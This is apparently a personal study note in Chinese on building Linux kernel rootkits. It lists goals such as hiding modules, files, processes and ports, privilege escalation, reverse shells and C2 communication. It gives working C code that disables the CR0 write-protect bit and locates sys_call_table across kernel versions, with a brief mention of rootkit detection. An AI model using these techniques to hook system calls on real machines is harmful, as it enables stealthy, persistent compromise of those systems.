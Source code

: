 # 功能
需要前置知识：[[Linux 驱动开发]]

模块
- 隐藏自己模块
- 控制模块加载，劫持其他模块
- 感染系统模块

文件
- 文件隐藏
- 文件增加删除修改
- 劫持`cat /etc/passwd`

进程
- 进程隐藏
- 进程提权
- 内核进程创建

网络：
- 网络连接隐藏、端口隐藏
- 反弹shell
- c2tongxin
-  隐藏网卡混杂模式


# 参考资料
https://github.com/NoviceLive/research-rootkit/

# 写保护切换
这个方法已经不能使用了，cr0和cr4敏感bit不能直接修改了，不过可以使用汇编修改
https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=8dbec27a242cd3e2816eeb98d3237b9f57cf6232
已失效:
```c
unsigned long original_cr0;
original_cr0 = read_cr0();//获取原始cr0寄存去内容
write_cr0(original_cr0 & ~0x00010000);//关闭写保护
write_cr0(original_cr0);//恢复写保护
```
使用下面代码，来自内核代码树
```c

extern unsigned long __force_order;

static inline void write_forced_cr0(unsigned long val) {
  asm volatile("mov %0,%%cr0" : "+r"(val), "+m"(__force_order));
}
static inline void zero_wp(void) { write_forced_cr0(read_cr0() & ~0x10000); }
static inline void one_wp(void) { write_forced_cr0(read_cr0() | 0x10000); }

static int lkm_init(void) {

  preempt_disable();
  zero_wp();
  printk("disable protection \n");
  printk("lkm: cr0=%lx\n", read_cr0());
  one_wp();
  printk("enable protection\n");
  printk("lkm: cr0=%lx\n", read_cr0());
  preempt_enable();

  return 0;
}

```
# sys_call_table获取方法
所有系统提供的能力都在系统调用中体现。

1. <2.6版本，`sys_call_table`就是一个导出符号，可以直接使用
2. <4.17版本，通过内核符号`sys_close`距离`sya_call_table`的偏移计算出`sys_call_table`的地址
3. <5.7版本，通过`kallsyms_lookup_name`函数来获得`sys_call_table`地址
4. 通过`kprobe`机制获得`sys_call_table`地址
5. 通过读取`/proc/kallsyms`来获得`sys_call_table`地址


```c
#include <linux/init.h>
#include <linux/kallsyms.h>
#include <linux/kernel.h>
#include <linux/version.h>

#if LINUX_VERSION_CODE < KERNEL_VERSION(4, 17, 0)
unsigned long **get_sct_via_sys_close(void) {
  unsigned long **entry = (unsigned long **)PAGE_OFFSET;

  for (; (unsigned long)entry < ULONG_MAX; entry += 1) {
    if (entry[__NR_close] == (unsigned long *)sys_close) {
      return entry;
    }
  }

  return NULL;
}
#endif

unsigned long **get_sct(void) {
  unsigned long **sct = NULL;

#if LINUX_VERSION_CODE >= KERNEL_VERSION(5, 7, 0)
  if (!sct) {
    struct kprobe kp = {0};
    int fail = 0;

    pr_info("Trying to get sct via kprobes....");
    kp.symbol_name = "sys_call_table";
    fail = register_kprobe(&kp);
    pr_info("register_kprobe = %d", fail);
    if (kp.addr) {
      sct = (unsigned long **)kp.addr;
    }
    if (!fail) {
      unregister_kprobe(&kp);
    }
  }
#endif

#if LINUX_VERSION_CODE < KERNEL_VERSION(5, 7, 0)
  if (!sct) {
    pr_info("Trying to get sct via kallsyms_lookup_name....");
    sct = (unsigned long **)kallsyms_lookup_name("sys_call_table");
  }
#endif

#if LINUX_VERSION_CODE < KERNEL_VERSION(4, 17, 0)
  if (!sct) {
    pr_info("Trying to get sct via sys_close....");
    sct = get_sct_via_sys_close();
  }
#endif
  if (sct) {
    pr_info("Got sct: %lx", (unsigned long)sct);
  } else {
    pr_alert("BUG: Failed to get sct!!! Please report.");
  }

  return sct;
}

static int lkm_init(void) {
  get_sct();
  return 0;
}

static void lkm_exit(void) { printk("goodby kernel!\n"); }

module_init(lkm_init);
/*未定义清楚函数则不允许卸载这个module */
module_exit(lkm_exit);
/* 声明license */
MODULE_LICENSE("GPL");
```
# rootkit 检测和绕过
#todo 
http://rkhunter.sourceforge.net/